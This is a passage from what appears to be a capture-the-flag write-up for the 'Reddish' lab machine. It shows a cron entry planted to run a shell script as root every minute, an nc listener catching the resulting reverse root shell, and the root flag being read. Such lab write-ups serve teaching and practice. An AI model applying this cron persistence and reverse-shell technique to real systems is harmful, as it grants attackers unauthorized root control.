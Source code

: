 ```bash
root@backup:~# cat /mnt/etc/cron.d/shell
* * * * * root sh /tmp/shell.sh
```

```bash
root@backup:~# ls -lha /mnt/etc/cron.d/shell
-rw-r--r-- 1 root root 32 Aug 24 07:59 /mnt/etc/cron.d/shell
```

And then we start a listener on Kali and in a minute we get a shell.

```bash
$ rlwrap -cAr nc -nlvp 9008
listening on [any] 9008 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.94] 34202
bash: cannot set terminal process group (5250): Inappropriate ioctl for device
bash: no job control in this shell

root@reddish:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```

Finally we have a shell and can get the root flag.

```bash
root@reddish:~# cat /root/root.txt
cat /root/root.txt
ee6dfa...
```
